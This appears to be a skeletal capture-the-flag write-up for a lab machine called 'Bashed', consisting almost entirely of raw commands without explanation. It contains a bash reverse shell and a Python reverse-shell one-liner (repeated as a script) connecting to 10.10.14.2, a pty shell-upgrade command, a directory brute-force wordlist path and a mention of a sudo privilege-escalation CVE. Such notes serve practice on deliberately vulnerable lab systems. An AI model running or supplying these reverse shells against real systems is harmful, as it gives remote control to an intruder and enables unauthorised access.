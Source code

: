 ```yaml
---
title: Bashed Writeup
date: 2020-11-13 05:40:01
tags:
---
```



/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
nohup bash -i >& /dev/tcp/10.10.14.2/4444 0>&1

ls -a

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

su: must be run from a terminal

python -c 'import pty; pty.spawn("/bin/bash")'

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

CVE-2019-14287